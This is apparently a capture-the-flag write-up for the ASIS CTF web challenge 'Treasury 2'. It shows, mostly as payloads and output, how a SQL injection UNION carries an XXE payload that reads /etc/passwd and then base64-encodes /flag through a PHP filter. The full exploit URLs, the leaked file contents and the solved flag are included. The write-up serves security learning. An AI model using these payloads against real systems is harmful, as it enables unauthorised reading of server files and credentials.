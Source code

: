 ## Treasury 2

* **Category:** web
* **Points:** 53

### Challenge

> A Cultural Treasury
> 
> https://poems.asisctf.com/

### Solution

Considering the XML-related error spawned previously and the hint provided into the `<flag>` element talking about a `/flag` file, you can understand that the application can be exploited via a XXE attack.

The malicious payload can be crafted and passed via the SQL injection vulnerability using a `UNION` operation. The application will parse the XML payload triggering the remote file read operation.

Let's consider a payload like the following to test the exploit.

```
Payload:

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><book><id>0</id><name>n</name><author>a</author><year>0</year><link>l</link><flag>f</flag><excerpt>&xxe;</excerpt></book>

URL-encoded payload:

%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20foo%20%5B%20%3C!ELEMENT%20foo%20ANY%20%3E%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%20%3E%5D%3E%3Cbook%3E%3Cid%3E0%3C%2Fid%3E%3Cname%3En%3C%2Fname%3E%3Cauthor%3Ea%3C%2Fauthor%3E%3Cyear%3E0%3C%2Fyear%3E%3Clink%3El%3C%2Flink%3E%3Cflag%3Ef%3C%2Fflag%3E%3Cexcerpt%3E%26xxe%3B%3C%2Fexcerpt%3E%3C%2Fbook%3E

Malicious URL:

https://poems.asisctf.com/books.php?type=excerpt&id=0%27%20union%20select%20%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20foo%20%5B%20%3C!ELEMENT%20foo%20ANY%20%3E%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%20%3E%5D%3E%3Cbook%3E%3Cid%3E0%3C%2Fid%3E%3Cname%3En%3C%2Fname%3E%3Cauthor%3Ea%3C%2Fauthor%3E%3Cyear%3E0%3C%2Fyear%3E%3Clink%3El%3C%2Flink%3E%3Cflag%3Ef%3C%2Fflag%3E%3Cexcerpt%3E%26xxe%3B%3C%2Fexcerpt%3E%3C%2Fbook%3E%27%20%23

Result:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

So it is possible to read remote files. PHP filters can be used to read source code via base64 encoding.

```
Payload:

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag" >]><book><id>0</id><name>n</name><author>a</author><year>0</year><link>l</link><flag>f</flag><excerpt>&xxe;</excerpt></book>

URL-encoded payload:

%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20foo%20%5B%20%3C!ELEMENT%20foo%20ANY%20%3E%3C!ENTITY%20xxe%20SYSTEM%20%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Fflag%22%20%3E%5D%3E%3Cbook%3E%3Cid%3E0%3C%2Fid%3E%3Cname%3En%3C%2Fname%3E%3Cauthor%3Ea%3C%2Fauthor%3E%3Cyear%3E0%3C%2Fyear%3E%3Clink%3El%3C%2Flink%3E%3Cflag%3Ef%3C%2Fflag%3E%3Cexcerpt%3E%26xxe%3B%3C%2Fexcerpt%3E%3C%2Fbook%3E

Malicious URL:

https://poems.asisctf.com/books.php?type=excerpt&id=0%27%20union%20select%20%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20foo%20%5B%20%3C!ELEMENT%20foo%20ANY%20%3E%3C!ENTITY%20xxe%20SYSTEM%20%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Fflag%22%20%3E%5D%3E%3Cbook%3E%3Cid%3E0%3C%2Fid%3E%3Cname%3En%3C%2Fname%3E%3Cauthor%3Ea%3C%2Fauthor%3E%3Cyear%3E0%3C%2Fyear%3E%3Clink%3El%3C%2Flink%3E%3Cflag%3Ef%3C%2Fflag%3E%3Cexcerpt%3E%26xxe%3B%3C%2Fexcerpt%3E%3C%2Fbook%3E%27%20%23

Result:

QVNJU3swMzQ4MmIxODIxMzk4Y2NiNTIxNGQ4OTFhZWQzNWRjODdkM2E3N2IyfQo=
```

Decoding the base64 encoded result you can obtain the flag.

```
ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}
```
